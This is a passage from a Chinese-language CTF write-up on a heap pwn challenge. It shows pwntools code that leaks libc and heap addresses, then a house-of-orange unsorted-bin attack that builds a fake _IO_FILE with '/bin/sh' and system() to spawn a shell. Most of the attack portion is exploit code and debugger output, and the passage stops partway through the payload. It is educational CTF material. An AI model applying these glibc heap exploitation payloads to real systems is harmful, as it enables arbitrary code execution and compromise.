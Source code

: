 ![此时的堆](1530184408297.png)

此时堆的情况如下，这样的话就可以leak出heap的基址了

```python
malloc_until(0x40, "\x00")
leak = show()
libc_addr = u64(leak[0:8]) - 0x3c4b00
heap_addr = u64(leak[8:16]) - 0x21090
assert (libc_addr & 0xfff) == 0 and (heap_addr & 0xfff) == 0
print hex(libc_addr)
print hex(heap_addr)
```

# 0x02 house of orange

接着就是unsorted bin实现house of orange，这个不具体说了，可以看看资料，注意那几个参数要设对。

有个坑就是`0x0106040f01130301`和`0x4000161302011409`还有后面一个`0`，一开始怎么都会segfault，一开始以为是malloc的问题，结果其实根本不是，是这两个数在全局变量区被覆盖而导致的，所以payload覆盖不能动它们。也就是这个时候我大概意识到了预期解是什么。。。

最后其实还有个问题，如果`malloc(0)`之后紧跟用来house of orange的`unsorted bin`，`system`的地址刚好跟那几个magic number重合。。。尴尬，所以要先再在0x20的chunk后面malloc一个chunk，然后再覆盖。。。

PS：我就在刚刚，写完这段话的时候，意识到把虚表位置改一下就能解决这个问题。。。看来是当时犯蠢了。。。

然后这又有问题，因为只能写`0xff`个字节，而`padding + sizeof _IO_FILE_plus`大于这个数，所以办法就是跨chunk分两次放。。。payload如下。。。

```python
# now
# pwndbg> x/4gx  0x55adbd120090
# 0x55adbd120090:	0x0000000000000000	0x0000000000000071
# 0x55adbd1200a0:	0x00007f78bb0d6b78	0x00007f78bb0d6b78
# in unsorted bin

malloc(0x50, "consume one chunk in small bin")
malloc(0x80, "\x00" * 40 + p64(heap_addr + 0x210e0 + 0x60) + "GGGGGGGG") # shift top chunk back
#放_mode与vtable地址
malloc(0x10, "\x00")
free()#放到fastbin里面
malloc(0x20, "\x00")#防止system地址和unsorted bin重合

system_addr = libc_addr + e.symbols["system"]
print hex(system_addr)
# 0x7fc08b121b78 - 0x7fc08ad5d000 = 0x3c4b78
# fake_file off = 0x55f21fe970b0 - 0x55f21fe76000 = 0x210b0
hso_fake_file = "/bin/sh\x00" + p64(0x61)
hso_fake_file += p64(libc_addr + 0x3c4b78)
```